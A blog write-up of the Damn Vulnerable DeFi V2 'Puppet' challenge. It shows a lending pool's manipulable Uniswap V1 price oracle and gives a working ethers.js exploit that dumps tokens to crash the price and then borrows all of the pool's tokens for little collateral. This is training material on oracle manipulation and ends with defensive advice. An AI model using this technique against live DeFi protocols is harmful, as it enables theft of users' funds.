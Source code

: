 # Damn Vulnerable DeFi V2 - #8 Puppet

<p className="text-xs text-right">February 23, 2022 by [patrickd](/about#patrickd)</p>

This is part 5 of the write-up series on Damn Vulnerable DeFi V2. Please consider attempting to solve it on your own first since it's a lot less fun after being spoiled!

---

>[**Challenge #8 - Puppet**](https://www.damnvulnerabledefi.xyz/challenges/8.html)
>
>There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
>There's a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.
>
>Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

This sounds like a classic case of AMM price manipulation allowing us to take an undercollateralized loan...

## Code Review

First, looking at the testcases in [puppet.challenge.js](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet/puppet.challenge.js) we can see that this challenge uses an already compiled build of Uniswap V1 (`build-uniswap-v1` folder). Since I doubt that this challenge wants us to do any reverse engineering, we can probably safely assume that this is the original Uniswap V1 build without changes and we can use the official documentation to interact with it (which was linked in the challenge text above).

The scenario setup code is quite long but can be summarized like this:

1. Send 25 ether to attacker EOA
2. Deploy DVT token contract
3. Deploy UniswapExchange contract as a factory template and the UniswapFactory itself
4. Use UniswapFactory to create an exchange for the DVT token
5. Deploy the vulnerable PuppetPool lending contract for DVT and tell it to use the exchange as price oracle
6. Provide 10 DVT and 10 ETH as liquidity to the Uniswap exchange
7. Give 1000 DVT to attacker and 100000 to the PuppetPool

The success condition is simple: The PuppetPool no longer has any DVT because the attacker account now owns all of them.

---

Aside from the Uniswap contracts and the DVT token, which we should already be quite comfortable with at this point, there's only one contract to look at this time: [PuppetPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet/PuppetPool.sol) which does exactly what it was described to do, allowing to borrow DVT in exchange for depositing two times of their value in ether as collateral. Functions for paying back the loan or interest rates were apparently omitted for simplicity.

The most interesting part of PuppetPool is the "oracle" function though:

```solidity filename="PuppetPool.sol"
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

By changing the balances of ether and DVT in the uniswap exchange pair we can manipulate the price and therefore the amount of collateral required for borrowing tokens from the PuppetPool. We want all of the DVT for as little ether collateral as possible, and for that we first have to cause a price dump. To do that we need to decrease the uniswap pair's ether balance and increase the DVT token balance as much as possible.

## Exploit

The exploit first swaps all of the attacker's DVT for ETH causing a price imbalance and then it takes an undercollateralized loan that we don't intend to ever pay back since we got it so "cheap"!

While writing the exploit I noticed that the success condition requires us to have MORE tokens than the pool did, so just stealing all of them isn't enough, we actually have to swap some back (or swap less for ether to begin with).

```javascript filename="puppet.challenge.js"
it('Exploit', async function () {
    // Swap all attacker's initial tokens for ether to dump price.
    await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
    await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE.sub(1), // All of them [lest 1wei to pass success conditions].
            1,                                     // We don't care how much ether we get back.
            9999999999                             // We don't care about the deadline.
    );

    // Calculate how much collateral we now need to borrow all tokens with the price being manipulated.
    const collateral = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE); // It's about 20 ether
    await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, { value: collateral });
});
```

The exploit allows us to borrow 100000 DVT for a collateral of only around 20 ether instead of 200000 ether!

For simplicity, I didn't bother writing an exploit contract here and instead did it in multiple transactions via ethers. In reality this wouldn't be very practical since arbitrage bots would likely pick up on our price manipulation and balance it out for profit before we'd be able to exploit it.

I also didn't find the official Uniswap V1 documentation to be very useful to get a simple swap working and had to resort to reading the [source code](https://github.com/Uniswap/v1-contracts/blob/master/contracts/uniswap_exchange.vy#L202-L222) in the end.

## Conclusion

This challenge shows quite well that you should avoid trusting on-chain AMM's as price oracles since they can be manipulated easily by wales and flash loans. Here I'd again recommend watching OpenZeppelin's workshop on [The Dangers of Price Oracles in Smart Contracts](https://www.youtube.com/watch?v=YGO7nzpXCeA) to learn more about securely integrating oracles.

---


<Cards>
  <Card
    icon={<FileIcon />}
    title="← Damn Vulnerable DeFi V2 - #7 Compromised"
    href="/posts/2022/2/22/damn-vulnerable-defi-v2-7-compromised/"
  />
  <Card
    icon={<FileIcon />}
    title="Damn Vulnerable DeFi V2 - #9 Puppet V2 →"
    href="/posts/2022/2/28/damn-vulnerable-defi-v2-9-puppet-v2/"
  />
</Cards>